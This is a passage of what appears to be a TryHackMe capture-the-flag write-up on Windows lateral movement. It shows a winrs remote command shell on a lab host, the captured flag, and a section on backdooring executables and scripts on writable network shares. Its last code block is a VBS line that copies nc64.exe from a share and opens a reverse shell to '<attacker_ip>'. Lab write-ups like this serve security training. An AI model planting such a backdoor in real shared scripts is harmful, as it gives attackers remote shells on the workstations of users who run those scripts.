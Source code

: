 ```
winrs.exe -r:thmiis.za.tryhackme.com cmd.exe
```

If we check the hostname:

![Pasted image 20250516145407.png](../../../IMAGES/Pasted%20image%2020250516145407.png)

Nice, let's get our flag:

```
C:\Users\t1_toby.beck>C:\Users\t1_toby.beck\Desktop\Flag.exe
THM{NO_PASSWORD_NEEDED}
```


# Abusing User Behavior
---

Under certain circumstances, an attacker can take advantage of actions performed by users to gain further access to machines in the network. While there are many ways this can happen, we will look at some of the most common ones.


## Abusing Writable Shares

It is quite common to find network shares that legitimate users use to perform day-to-day tasks when checking corporate environments. If those shares are writable for some reason, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines.

One common scenario consists of finding a shortcut to a script or executable file hosted on a network share.

![PuTTY lnk file](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/70e361f2a43b498e5d487d0394bd0a87.png)  

The rationale behind this is that the administrator can maintain an executable on a network share, and users can execute it without copying or installing the application to each user's machine.Â If we, as attackers, have write permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.

Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to itsÂ `%temp%`Â folder and executed on the workstation.Â Therefore any payload will run in the context of the final user's workstation (and logged-in user account).

### Backdooring .vbs Scripts

As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:

```shell-session
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```
